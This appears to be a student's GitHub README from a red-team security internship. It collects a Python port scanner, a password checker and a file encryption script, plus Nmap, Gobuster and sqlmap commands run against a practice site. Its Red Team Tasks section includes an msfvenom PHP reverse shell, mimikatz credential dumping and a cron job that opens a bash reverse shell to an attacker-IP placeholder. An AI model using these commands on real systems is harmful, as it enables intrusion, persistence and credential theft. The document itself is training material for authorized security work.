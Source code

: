 # Hack Secure Internship: Red Team Tasks  
**Student Name:** Daniel Muthama  
**University:** Maseno University  
**GitHub Repository:** [Link](https://github.com/danielmuthama23/Red-Team_Hack-Secure-Internship-Project.git)  

---

## Overview  
This repository contains scripts, commands, and methodologies used during the Hack Secure Red Team internship. Below are the codes and tools implemented for the tasks.  

---

## Tools and Scripts  

### 1. Python Port Scanner  

#### Scans open ports on a target IP address.  
    import socket
    from concurrent.futures import ThreadPoolExecutor

    def scan_port(ip, port):
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(1)
                s.connect((ip, port))
                print(f"[+] Port {port} is open")
                return port
        except:
            return None

    def port_scanner(ip, start_port, end_port):
        open_ports = []
        with ThreadPoolExecutor(max_workers=100) as executor:
            futures = [executor.submit(scan_port, ip, port) for port in range(start_port, end_port+1)]
            for future in futures:
                result = future.result()
                if result:
                    open_ports.append(result)
        return open_ports

    # Example usage:

    ip = "testphp.vulnweb.com"
    start_port = 1
    end_port = 100
    open_ports = port_scanner(ip, start_port, end_port)
    print(f"Open ports: {open_ports}")

### 2. Password Strength Checker

Evaluates password strength using regex and zxcvbn.

    import re
    import zxcvbn

    def password_strength(password):
        result = zxcvbn.zxcvbn(password)
        score = result['score']
        feedback = result['feedback']['warning'] if result['feedback']['warning'] else "No feedback"
        
        strength = {
            0: "Very Weak",
            1: "Weak",
            2: "Moderate",
            3: "Strong",
            4: "Very Strong"
        }
        return f"Strength: {strength[score]}. Feedback: {feedback}"

    # Usage:
    password = input("Enter password: ")
    print(password_strength(password))

### 3. File Encryption/Decryption Tool

Encrypts/decrypts files using Fernet (AES).

    from cryptography.fernet import Fernet
    import os

    def generate_key():
        return Fernet.generate_key()

    def save_key(key, filename="secret.key"):
        with open(filename, "wb") as key_file:
            key_file.write(key)

    def load_key(filename="secret.key"):
        return open(filename, "rb").read()

    def encrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            data = f.read()
        encrypted_data = cipher.encrypt(data)
        with open(output_file, "wb") as f:
            f.write(encrypted_data)

    def decrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            encrypted_data = f.read()
        decrypted_data = cipher.decrypt(encrypted_data)
        with open(output_file, "wb") as f:
            f.write(decrypted_data)

# Usage:

    key = generate_key()
    save_key(key)
    encrypt_file(key, "plain.txt", "encrypted.txt")
    decrypt_file(key, "encrypted.txt", "decrypted.txt")

**Command-Line Tools:**
1. Nmap Port Scanning

    nmap -sV -p- -T4 -oN nmap_scan.txt testphp.vulnweb.com

2. Gobuster Directory Bruteforcing

    gobuster dir -u http://testphp.vulnweb.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html -o gobuster_scan.txt

3. SQL Injection with sqlmap

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --batch

4. Wireshark Filter for Credential Capture

    http.request.method == "POST"

**Red Team Tasks**
1. Metasploit Reverse Shell Payload

    msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=4444 -o shell.php

2. Meterpreter Post-Exploitation

    # After gaining shell:
    meterpreter > load mimikatz
    meterpreter > wdigest
3. Persistence via Cron Job

    echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'" | crontab -

Usage Examples
**Port Scanner:**

    port_scanner("testphp.vulnweb.com", 1, 100)

**File Encryption:**

    encrypt_file(key, "report.docx", "encrypted_report.docx")

**SQLi Automation:**

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms --dump

**Prerequisites**

    Python 3.x

**Libraries:**

    pip install cryptography zxcvbn


**Tools:**

Nmap, Gobuster, Wireshark, sqlmap, Metasploit.